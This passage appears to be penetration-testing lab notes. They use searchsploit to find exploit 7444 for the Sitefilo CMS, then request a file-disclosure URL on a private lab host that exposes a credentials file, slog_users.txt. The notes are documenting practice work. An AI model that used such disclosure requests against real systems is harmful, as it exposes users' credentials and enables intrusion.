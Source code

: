 ## Searchsploit (again)
This time we find a hit
`searcshploit sitefilo`
![80a9969f1336663627df41825dceb106.png](../../../_resources/7f161af95326474485dab2139fae9ed2.png)

Download the sitefilo exploit. Exploit 7444.txt contains 2 exploits: a file disclosure and an RFI
`searchsploit -m 7444`
![542078efd8690973c62a9936426c0f5e.png](../../../_resources/61a98c4f53474b6bb06386af17c4d16c.png)


# 16. Check if file disclosure works on 7444.txt exploit.
![ee2c6fa334814140d134ce8e1e8c3c09.png](../../../_resources/859a45224a77411985f8f7de9e2a28e2.png)

The slog_users.txt is there and reveals some credentials
`http://10.11.1.133/1f2e73705207bdd6467e109c1606ed29-21213/111111111/slog_users.txt`
![3b8c9d60c01287d3859081c99a3f1b5e.png](../../../_resources/3ffd3379c8a74322ac93300240b338bd.png)

